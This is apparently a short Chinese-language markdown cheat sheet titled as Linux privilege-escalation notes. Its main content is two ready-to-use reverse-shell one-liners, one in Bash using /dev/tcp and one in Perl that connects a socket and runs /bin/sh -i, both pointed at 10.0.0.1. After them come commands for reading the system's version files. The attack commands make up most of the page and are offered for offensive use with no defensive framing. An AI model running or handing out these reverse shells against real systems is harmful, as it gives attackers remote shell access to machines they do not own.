 # GUN Linux 提权笔记

### Shell反弹
    1.1 **Bash反弹**
``` sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
    1.2 **Perl反弹**
``` sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### 查看系统版本

``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```
